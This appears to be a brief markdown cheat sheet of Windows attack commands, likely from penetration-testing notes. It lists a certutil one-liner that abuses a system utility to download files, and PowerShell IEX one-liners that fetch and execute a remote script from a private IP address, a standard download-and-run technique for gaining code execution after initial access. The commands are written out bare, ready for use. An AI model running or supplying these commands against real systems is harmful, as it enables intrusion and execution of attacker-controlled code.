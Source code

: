 # commands
Dos command to download http
`certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip`

Powershell command to download and execute script:
`powershell -c "IEX(New-Object Net.WebClient).downloadString('http://192.168.49.213/ouzmetbb.ps1')"`
`IEX(New-Object Net.WebClient).downloadString('http://192.168.49.213/ouzmetbb.ps1')`